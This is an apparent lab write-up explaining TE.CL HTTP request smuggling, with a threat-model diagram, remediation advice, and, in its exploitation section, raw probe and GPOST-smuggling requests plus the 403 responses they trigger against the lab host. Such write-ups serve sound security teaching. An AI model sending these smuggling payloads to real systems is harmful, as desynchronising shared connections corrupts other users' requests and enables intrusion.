





## Challenge Overview
* **Challenge name**: HTTP request smuggling, basic TE.CL vulnerability
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Exploit a TE.CL desynchronization flaw to smuggle an arbitrary request prefix, causing the subsequent request processed by the back-end to mutate into an invalid `GPOST` method and trigger a 403 Forbidden response.

---

## 1. Core Fundamentals

The TE.CL variant of HTTP Request Smuggling is the inverse of the CL.TE vulnerability. It arises from conflicting message boundary delimitation precedence within a multi-tiered web server architecture.

### 1.1. Multi-Tier Server Architecture and Message Boundary Delimitation
* **Reverse Proxy Relaying:** In modern stream-relaying architectures, a front-end server (such as Nginx, HAProxy, Envoy, or a CDN) accepts client HTTP requests and forwards them to a back-end server (such as Apache HTTP Server, Node.js, or Tomcat) across persistent internal TCP connections to optimize throughput and reduce latency.
* **Message Framing Standards:** RFC 7230 defines two core mechanisms to demarcate the boundaries of an HTTP/1.1 message body: the `Content-Length` header specifies an exact byte count, while `Transfer-Encoding: chunked` defines dynamically framed chunks terminating with a zero-length chunk (`0\r\n\r\n`).

### 1.2. Anatomy of the TE.CL Vulnerability
* **Precedence Discrepancy:** A TE.CL vulnerability occurs when the front-end prioritizes `Transfer-Encoding: chunked`, whereas the back-end ignores or fails to support `Transfer-Encoding` and falls back to evaluating `Content-Length`.
* **RFC 7230 Conflict Clause:** Under RFC 7230 section 3.3.3, if both headers are present in a request, `Transfer-Encoding` must strictly override `Content-Length`. When the back-end fails to adhere to this rule due to implementation quirks or configuration errors, desynchronization occurs.

### 1.3. Establishing the Desynchronization State
* **Front-end Parsing:** The front-end reads through all chunked blocks until it reaches the terminating chunk `0\r\n\r\n`, deems the message complete, and forwards the entire byte sequence over the pooled connection.
* **Back-end Parsing:** The back-end inspects only the small byte count specified by `Content-Length`, processes that prefix as the entire request body, and closes the request transaction. The remaining unread bytes—belonging to the forwarded chunk payload—linger unconsumed in the TCP socket's receive buffer.

---

## 2. Attack Architecture / Threat Model

The TE.CL attack model leverages the front-end's willingness to forward a large chunked body containing an embedded request, while the back-end truncates its read based on a small `Content-Length`, leaving the smuggled payload queued in the TCP buffer.

```text
[Attacker]
    │
    │ Sends HTTP/1.1 request containing both:
    │ Content-Length: 4
    │ Transfer-Encoding: chunked
    │ (Body contains chunk 5a enclosing the GPOST request)
    ▼
[Front-end Server] (Prioritizes Transfer-Encoding: chunked)
    │ Reads entire chunk 5a and terminating chunk 0\r\n\r\n
    │ Forwards full stream to Back-end over shared TCP connection
    ▼
[Back-end Server] (Prioritizes Content-Length: 4)
    │ Reads only first 4 bytes ('5a\r\n') as body of request 1 -> Responds 200 OK
    │ Remaining bytes (GPOST / HTTP/1.1...) linger in TCP socket buffer
    ▼
[Subsequent client request]
    │ Arrives on the same TCP connection
    │ Back-end reads lingering buffer first: GPOST becomes prefix of new request
    ▼
[Back-end responds 403 Forbidden - "Unrecognized method GPOST"]
```

### 2.1. Attack Execution Flow
1. **Step 1 - Dispatching the Poisoning Request:** The attacker transmits an HTTP POST request declaring both `Content-Length: 4` and `Transfer-Encoding: chunked`. The body contains a chunk length of `5a` (90 bytes in decimal), followed by the complete prefix of the smuggled request `GPOST / HTTP/1.1`, ending with the terminating chunk `0\r\n\r\n`.
2. **Step 2 - Front-end Forwarding:** The front-end parses the message via `Transfer-Encoding: chunked`, processes chunk `5a` and terminating chunk `0`, considers the message structurally valid, and forwards the entire byte sequence to the back-end.
3. **Step 3 - Truncated Read on Back-end:** The back-end evaluates `Content-Length: 4`, consuming only the first 4 bytes of the body (`5a\r\n`). It concludes request parsing, processes the request, and returns an `HTTP/1.1 200 OK` response.
4. **Step 4 - Smuggled Request in Socket Buffer:** The unconsumed byte stream beginning with `GPOST / HTTP/1.1...` remains buffered in the back-end's TCP socket receive queue.
5. **Step 5 - Next Request Mutation:** When the next client request arrives on this shared connection, the back-end reads from the socket buffer first. The buffered `GPOST / HTTP/1.1` prefix merges with the incoming request line, causing the back-end to execute a `GPOST` request.
6. **Step 6 - Triggering the Denial Response:** Because `GPOST` is not a recognized HTTP method or route, the back-end returns an `HTTP 403 Forbidden` error with the message `Unrecognized method GPOST`.

### 2.2. Root Cause Analysis and Preconditions
* **Root Cause 1:** The back-end violates RFC 7230 section 3.3.3 by failing to prioritize `Transfer-Encoding` over `Content-Length` when both headers coexist.
* **Root Cause 2:** The front-end relays requests containing conflicting framing headers without sanitizing redundant fields or dropping malformed requests at the reverse proxy boundary.
* **Root Cause 3:** The web infrastructure reuses internal TCP connections across distinct client requests without stream isolation.

---

## 3. Vulnerability Exploitation

The vulnerability was validated using Burp Suite Repeater across two phases: probing for the TE.CL desynchronization condition, followed by full exploitation smuggling a complete `GPOST` request.

### 3.1. Probing and Identifying the TE.CL Desynchronization
Initiate an HTTP POST request containing both `Content-Length` and `Transfer-Encoding` headers to identify parsing divergence across server tiers.

> [!NOTE]
> **Burp Repeater Protocol Configuration:**
> Although the challenge environment supports HTTP/2, TE.CL exploitation requires direct manipulation of raw HTTP/1.1 text headers. In Burp Suite Repeater, ensure the protocol is set to `HTTP/1.1` under **Request attributes** in the **Inspector** panel, and uncheck **Update Content-Length** in the Repeater menu.

Configure the probing request as follows:

```http
POST / HTTP/1.1
Host: 0a9300d20390709e8094172f00ad00c2.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1
a
0

```

Probing payload analysis:
* **Front-end Processing:** The front-end evaluates chunk `1` containing byte `a`, followed by terminating chunk `0`, identifies the request as valid chunked data, and forwards it.
* **Back-end Processing:** The back-end reads exactly 4 bytes per `Content-Length: 4` (`1\r\na`). The trailing chunk `0\r\n\r\n` remains buffered in the socket queue.

The initial probing request completes with an `HTTP/1.1 200 OK` response.



Immediately send a second request across the same connection. The residual `0\r\n\r\n` data in the buffer prepends to the incoming `POST / HTTP/1.1` request line, producing `0POST / HTTP/1.1`. The back-end returns a `403 Forbidden` error with `Unrecognized method 0POST`:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method 0POST"
```

This response confirms the presence of the TE.CL vulnerability.



### 3.2. Constructing the Payload and Smuggling the GPOST Request
Upgrade the payload to smuggle a complete `GPOST` request prefix into the back-end socket buffer:

```http
POST / HTTP/1.1
Host: 0a9300d20390709e8094172f00ad00c2.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

1
0

```

Exploit payload breakdown:
* **Chunk Size 5a:** Hexadecimal `5a` denotes a chunk length of 90 bytes in decimal, precisely enclosing the embedded `GPOST` request.
* **Smuggled Request Body:** Contains the request line `GPOST / HTTP/1.1`, relevant headers, and a `Content-Length: 13` header designed to consume the prefix of the subsequent incoming request.
* **Terminating Chunk:** The trailing `0\r\n\r\n` serves as the chunked terminator for the front-end parser.
* **Back-end Interpretation:** `Content-Length: 4` covers only `5a\r\n`. The back-end concludes request 1 immediately after parsing this chunk length line, stranding everything from `GPOST` onward in the socket buffer.

Dispatching the exploit request returns an `HTTP/1.1 200 OK` status code.



### 3.3. Triggering and Verifying the Smuggled Request
Send a second request across the pooled TCP connection. The back-end consumes the buffered `GPOST / HTTP/1.1` prefix first, encounters the invalid method, and responds with `403 Forbidden`:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```



With the `GPOST` method processed on the backend server, the platform marks the challenge as solved.



---

## 4. Remediation Strategies

To mitigate TE.CL HTTP Request Smuggling, organizations should implement comprehensive architectural and configuration countermeasures:

### 4.1. Comprehensive End-to-End HTTP/2 Migration
* **End-to-End Binary Framing:** Enforce HTTP/2 across all tiers (Client-to-Front-end and Front-end-to-Back-end). HTTP/2 encodes message lengths within explicit binary frame headers, eliminating parsing ambiguity between `Content-Length` and `Transfer-Encoding`.
* **Safe Protocol Translation:** If reverse proxies must downgrade HTTP/2 client connections to HTTP/1.1 backend requests, ensure the translation proxy strips or normalizes conflicting framing headers before dispatch.

### 4.2. Reverse Proxy Request Normalization and Header Sanitization
* **Drop Conflicting Headers:** Configure the front-end reverse proxy to reject requests (via `HTTP 400 Bad Request`) that specify both `Content-Length` and `Transfer-Encoding`.
* **Payload Dechunking:** If forwarding chunked payloads to legacy back-ends that lack chunked encoding support, configure the reverse proxy to unpack all chunks into a contiguous payload and compute a verified `Content-Length` header while removing `Transfer-Encoding`.

### 4.3. Back-End Server Hardening and Connection Isolation
* **Strict RFC 7230 Adherence:** Update backend web server runtimes and libraries to conform to RFC 7230 section 3.3.3 by ensuring `Transfer-Encoding: chunked` always takes precedence over `Content-Length`.
* **Connection Pooling Isolation:** Restrict backend connection pooling or isolate connections per client session to prevent request pollution from impacting concurrent users.
